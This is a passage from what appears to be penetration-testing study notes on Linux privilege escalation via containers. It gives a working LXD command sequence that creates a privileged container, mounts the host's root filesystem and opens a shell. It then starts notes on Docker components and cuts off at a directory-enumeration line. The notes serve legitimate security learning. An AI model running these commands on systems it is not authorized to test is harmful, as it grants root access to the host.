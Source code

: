     # we can create our own container and transfer to target
    # or use an existing container

    cd ContainerImages

    ls
    # suppose we already have an Ubuntu template here

    lxc image import ubuntu-template.tar.xz --alias ubuntutemp

    lxc image list
    # verify image has been imported

    # initiate image and configure to avoid isolation features

    lxc init ubuntutemp privesc -c security.privileged=true

    lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true

    lxc start privesc
    # start the container

    lxc exec privesc /bin/sh
    # log into container

    ls -l /mnt/root
    # root dir of host system
    ```

* Docker:

    * Docker daemon - responsible for container management & orchestration

    * Docker clients - for enduser to interact with Docker; this communicates with Docker daemon

    * Docker image - template for containers; this can be creating using Dockerfile - text file which defines how to build the image

    * Docker container - lightweight, isolated instance of Docker image

    * Docker shared directories:

        ```sh
        # enumerate docker container to find non-standard directories
        cd /hostsystem/home/cry0l1t3
